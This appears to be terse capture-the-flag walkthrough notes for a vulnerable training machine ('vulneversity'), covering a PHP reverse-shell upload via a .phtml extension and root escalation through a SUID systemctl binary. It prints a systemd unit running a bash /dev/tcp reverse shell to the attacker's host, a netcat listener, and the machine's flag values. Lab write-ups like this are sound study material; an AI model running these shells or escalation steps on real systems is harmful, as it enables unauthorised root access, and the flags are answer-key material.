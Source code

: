 vulneversity
2022-06-20

# gryNet


upload revshell phtml to webserver @ $IP:3333/internal/
execute $IP:3333/internal/uploads/shell.phtml

# privesc

SUID bit on systemctl:

cat root.service
```
[Unit]
Description=privesc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/$IP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

systemctl enable /tmp/root.service
systemctl start root
nc -lnvp 9999

user.txt:8bd7992fbe8a6ad22a63361004cfcedb
root.txt:a58ff8579f0a9270368d33a9966c7fd5